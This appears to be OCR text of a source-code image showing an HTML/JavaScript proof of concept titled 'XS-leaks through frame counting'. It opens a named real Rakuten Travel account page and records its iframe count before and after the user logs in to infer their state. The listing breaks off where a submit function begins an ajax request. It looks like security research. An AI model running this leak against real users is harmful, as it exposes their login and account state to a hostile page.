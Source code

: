 ```jsx
    <h1>XS-leaks through frame counting</h1>
    <p>This is a page to contact login page.</p>
    
    <script type="text/javascript">
      //第一次打开页面记录iframe
      var win = window.open("<https://aps1.travel.rakuten.co.jp/portal/my/prv_page.first?f_tab=1>");
      var pattern1 = [];
      // In a loop, register the number of iframes at 60ms interval
      var recorder = setInterval(() => {
        pattern1.push(win.length)
      }, 60);

      // Break the loop after 6 seconds
      setTimeout(() => {
         clearInterval(recorder);
         console.log("The pattern1 is: ", pattern1.join(', '));
      }, 6 * 1000);
  
      //12秒后等待用户登录后再记录iframe
      setTimeout(twiceOpen,12 * 1000);
      function twiceOpen(){
        var pattern2 = [];
        // In a loop, register the number of iframes at 60ms interval
        var recorder = setInterval(() => {
          pattern2.push(win.length)
        }, 60);
  
        // Break the loop after 18 seconds
        setTimeout(() => {
           clearInterval(recorder);
           console.log("The pattern2 is: ", pattern2.join(', '));
        }, 6 * 1000);
      }
    </script>

    <!--打印读取页面iframe数-->
    <div class="sm-item" id="data">
    </div>
    <input type="submit" value="submit" onclick="submit()">
    <p id="result"></p>

    <script>
      //将控制台内容打印在div,pre内（打印在页面上）
      (function () {
        var old = console.log;
        var logger = document.getElementById('data');
        console.log = function () {
          for (var i = 0; i < arguments.length; i++) {
            if (typeof arguments[i] == 'object') {
                logger.innerHTML += (JSON && JSON.stringify ? JSON.stringify(arguments[i], undefined, 2) : arguments[i]) + '<br />';
            } else {
                logger.innerHTML += arguments[i] + '<br />';
            }
          }
        }
    })();
    </script>
    
    <script type="text/javascript">
        function submit(){
          //发送ajax请求
```
